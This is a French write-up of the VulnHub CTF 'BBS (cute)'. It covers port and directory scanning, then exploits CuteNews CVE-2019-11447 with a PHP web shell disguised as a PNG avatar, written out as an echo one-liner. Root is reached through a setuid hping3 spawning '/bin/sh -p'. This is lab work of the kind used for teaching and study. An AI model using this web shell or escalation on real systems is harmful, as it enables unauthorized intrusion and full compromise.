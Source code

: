 # Solution du CTF Cute de VulnHub

Ayant résolu déjà 2 CTFs de foxlox (ICMP et Boverflow) et les trouvant plutôt intéressants j'ai décidé de continuer avec celui-ci. Je ne sais pas exactement quel est son nom il est désigné comme [BBS (cute): 1.0.2](https://www.vulnhub.com/entry/bbs-cute-102,567/) sur VulnHub.

```
Nmap scan report for 192.168.56.45
Host is up (0.00026s latency).
Not shown: 65530 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 04d06ec4ba4a315a6fb3eeb81bed5ab7 (RSA)
|   256 24b3df010bcac2ab2ee949b058086afa (ECDSA)
|_  256 6ac4356a7a1e7e51855b815c7c744984 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
88/tcp  open  http     nginx 1.14.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.14.2
110/tcp open  pop3     Courier pop3d
|_pop3-capabilities: PIPELINING LOGIN-DELAY(10) IMPLEMENTATION(Courier Mail Server) UIDL TOP USER UTF8(USER) STLS
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
995/tcp open  ssl/pop3 Courier pop3d
|_pop3-capabilities: LOGIN-DELAY(10) IMPLEMENTATION(Courier Mail Server) UIDL TOP USER UTF8(USER) PIPELINING
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
```

## Mignon tout plein

On a ici deux services HTTP, l'un sur le port standard, l'autre sur le port 88. Il y a aussi un serveur de messagerie.

Les deux sites ne retournant rien d'intéressant, je commence par chercher sur le port 80 des fichiers/dossiers intéressants :

```bash
$ feroxbuster -u http://192.168.56.45/ -w discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-directories.txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.4.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.56.45/
 🚀  Threads               │ 50
 📖  Wordlist              │ filename-dirname-bruteforce/raft-large-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.4.0
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        9l       28w      316c http://192.168.56.45/uploads
301        9l       28w      313c http://192.168.56.45/docs
301        9l       28w      314c http://192.168.56.45/skins
301        9l       28w      313c http://192.168.56.45/libs
301        9l       28w      313c http://192.168.56.45/core
301        9l       28w      321c http://192.168.56.45/skins/images
301        9l       28w      316c http://192.168.56.45/libs/js
301        9l       28w      317c http://192.168.56.45/libs/css
301        9l       28w      322c http://192.168.56.45/core/includes
301        9l       28w      321c http://192.168.56.45/core/modules
301        9l       28w      319c http://192.168.56.45/core/tools
301        9l       28w      318c http://192.168.56.45/core/lang
301        9l       28w      319c http://192.168.56.45/libs/fonts
301        9l       28w      321c http://192.168.56.45/core/captcha
301        9l       28w      315c http://192.168.56.45/manual
301        9l       28w      322c http://192.168.56.45/manual/images
301        9l       28w      318c http://192.168.56.45/manual/en
301        9l       28w      318c http://192.168.56.45/manual/de
301        9l       28w      318c http://192.168.56.45/manual/fr
301        9l       28w      321c http://192.168.56.45/manual/style
301        9l       28w      318c http://192.168.56.45/manual/es
301        9l       28w      323c http://192.168.56.45/manual/en/misc
301        9l       28w      323c http://192.168.56.45/manual/fr/misc
301        9l       28w      319c http://192.168.56.45/skins/base
200      128l      671w     9844c http://192.168.56.45/manual/fr/
301        9l       28w      322c http://192.168.56.45/manual/fr/faq
301        9l       28w      322c http://192.168.56.45/manual/fr/ssl
301        9l       28w      322c http://192.168.56.45/manual/fr/mod
301        9l       28w      327c http://192.168.56.45/manual/fr/programs
200      128l      611w     9544c http://192.168.56.45/manual/de/
301        9l       28w      327c http://192.168.56.45/manual/fr/platform
301        9l       28w      327c http://192.168.56.45/manual/de/platform
301        9l       28w      326c http://192.168.56.45/manual/de/rewrite
301        9l       28w      319c http://192.168.56.45/migrations
200       99l      452w     5717c http://192.168.56.45/manual/fr/misc/
```

Ca fait pas mal de dossiers mais ça ne me parle pas vraiment, mis à part le dossier *migrations* qui mentionne une appli web  nommée *CuteNews*.

Le listing des fichiers est plus instructif :

```bash
$ feroxbuster -u http://192.168.56.45/ -w fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-files.txt 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.4.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.56.45/
 🚀  Threads               │ 50
 📖  Wordlist              │ ble-filepaths/filename-dirname-bruteforce/raft-large-files.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.4.0
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
200      368l      933w    10701c http://192.168.56.45/index.html
200       63l      481w     3119c http://192.168.56.45/LICENSE.txt
200        1l       12w     1150c http://192.168.56.45/favicon.ico
403        9l       28w      278c http://192.168.56.45/.htaccess
200      368l      933w    10701c http://192.168.56.45/
403        9l       28w      278c http://192.168.56.45/.html
403        9l       28w      278c http://192.168.56.45/.php
403        9l       28w      278c http://192.168.56.45/.htpasswd
403        9l       28w      278c http://192.168.56.45/.htm
403        9l       28w      278c http://192.168.56.45/.htpasswds
200        1l        7w       91c http://192.168.56.45/captcha.php
200        1l        6w       28c http://192.168.56.45/print.php
200      168l      396w     6175c http://192.168.56.45/index.php
200        5l      204w     5118c http://192.168.56.45/search.php
200        1l        6w       28c http://192.168.56.45/popup.php
200        2l       16w      105c http://192.168.56.45/rss.php
200      155l      752w        0c http://192.168.56.45/example.php
403        9l       28w      278c http://192.168.56.45/.htgroup
403        9l       28w      278c http://192.168.56.45/wp-forum.phps
403        9l       28w      278c http://192.168.56.45/.htaccess.bak
403        9l       28w      278c http://192.168.56.45/.htuser
403        9l       28w      278c http://192.168.56.45/.ht
403        9l       28w      278c http://192.168.56.45/.htc
200        2l      380w     2987c http://192.168.56.45/show_news.php
403        9l       28w      278c http://192.168.56.45/.htaccess.old
403        9l       28w      278c http://192.168.56.45/.htacess
```

On peut voir ici que *index.php* est différent de *index.html*. Pour un Apache par défaut le html est utilisé avant le php. Si on demande exploicitement *index.php* on se retrouve finalement devant une installation de *CuteNews*.

Cette appli web est vulnérable à une vulnérabilité de type unrestricted upload (menant à un RCE) : [GitHub - ColdFusionX/CVE-2019-11447_CuteNews-AvatarUploadRCE: Exploit Code for CVE-2019-11447 aka CuteNews 2.1.2 Avatar upload RCE (Authenticated)](https://github.com/ColdFusionX/CVE-2019-11447_CuteNews-AvatarUploadRCE)

Pour cela il faut préalablement créer un compte sur l'appli via le lien *Register*. Dans l'ensemble aucun problème pour cette opération mais à part qu'un captcha est demandé alors qu'aucune image n'apparait dans la page.

En analysant un peu la situation on voit que l'URL de l'image qui est *captcha.php* retourne en fait du texte. Il suffit de récupérer l'output du script et de recopier dans le champ captcha pour passer l'enregistrement.

L'exploitation consiste à uploader comme avatar du compte un fichier avec extension PHP qui passera la vérification du type mime.

On peut ainsi créer un script PHP qui aura un entête d'image PNG puis l'uploader :

```bash
$ echo -e '\x89\x50\x4e\x47\x0d\x0a\x1a\x0a\x00\x00\x00\x0d\x49\x48\x44\x52\x00<?php system($_GET["cmd"]); ?>' > shell.php
```

De cette façon j'obtiens mon shell à l'adresse suivante :

http://192.168.56.45/uploads/avatar_devloop_shell.php?cmd=id

L'étape suivante consiste à upgrader ce webshell vers un [reverse-ssh: Statically-linked ssh server with reverse shell functionality for CTFs and such](https://github.com/Fahrj/reverse-ssh).

## Aller simple vers root, sans correspondance

Pour les autres CTFs de la série on trouve un utilisateur *fox* qui dispose du premier flag.

```bash
www-data@cute:/home/fox$ cat user.txt 
dcb8189a0eaf7a690a67785a7299be60
```

Mais je ne trouve rien d'intéressant permettant de passer de l'utilisateur courant (*www-data*) vers *fox*.

Il y a bien cette entrée sudo permettant d'exécuter *hping3* en tant que root mais avec l'absence d'astérisque son utilisation n'a pas de sens :

```bash
www-data@cute:/home/fox$ sudo -l
Matching Defaults entries for www-data on cute:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on cute:
    (root) NOPASSWD: /usr/sbin/hping3 --icmp
```

Si on tente par exemple de rajouter le paramètre *--file* comme sur le [CTF ICMP](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20ICMP%20de%20VulnHub.md) on sort de la permission *sudo* et ce dernier demande alors le mot de passe de *www-data* que l'on ne connait pas.

Le binaire est toutefois aussi setuid root mais si on passe *--file* on a un message indiquant que l'option est désactivée quand le bit setuid est actif... sniff.

```bash
www-data@cute:/tmp$ /usr/sbin/hping3 --icmp --file /etc/shadow -d 100 192.168.56.1
Option disabled when setuid `--file'
```

Finalement après pas mal de recherches infructueuses je suis allé sur [l'entrée hping3 pour gtfobins](https://gtfobins.github.io/gtfobins/hping3/) et découvert qu'on pouvait utiliser le binaire comme une sorte d'interpréteur :

```bash
www-data@cute:/$ hping3
hping3> /bin/sh -p
# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
# cat /root/root.txt
0b18032c2d06d9e738ede9bc24795ff2
```

A défaut d'avoir un CTF plus long via l'utilisateur *fox* j'aurais découvert une particularité de hping3 :)

*Publié le 5 novembre 2022*
